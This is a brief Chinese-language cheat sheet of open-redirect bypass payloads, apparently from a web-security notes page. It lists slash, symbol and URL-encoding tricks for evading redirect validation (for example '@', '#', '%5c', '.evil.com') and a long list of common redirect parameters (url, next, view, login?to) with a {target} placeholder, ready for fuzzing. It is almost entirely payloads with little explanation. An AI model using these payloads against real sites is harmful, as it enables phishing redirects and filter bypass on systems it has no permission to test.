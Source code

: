 绕过技巧

> ```plain
> #斜线绕过
> url=/www.baidu.com       
> //www.baidu.com
> 
> #符号绕过
> url=https://www.xx.com@www.baidu.com       
> https://www.xx.com#www.baidu.com 
> https://www.xx.com/www.baidu.com          
> https://www.xx.com?www.baidu.com 
> https://www.xx.com\\www.baidu.com     
> url=.evil.com
> \.
> ```

```plain
/%09/google.com
/%5cgoogle.com
//www.google.com/%2f%2e%2e
//www.google.com/%2e%2e
//google.com/
//google.com/%2f..
//\google.com
/\victim.com:80%40google.com
#可能的开放重定向参数
?url=http://{target}
?url=https://{target}
?next=http://{target}
?next=https://{target}
?url=https://{target}
?url=http://{target}
?url=//{target}
?url=$2f%2f{target}
?next=//{target}
?next=$2f%2f{target}
?url=//{target}
?url=$2f%2f{target}
?url=//{target}
/redirect/{target}
/cgi-bin/redirect.cgi?{target}
/out/{target}
/out?{target}
/out?/{target}
/out?//{target}
/out?/\{target}
/out?///{target}
?view={target}
?view=/{target}
?view=//{target}
?view=/\{target}
?view=///{target}
/login?to={target}
/login?to=/{target}
/login?to=//{target}
/login?to=/\{target}
/login?to=///{target}
```
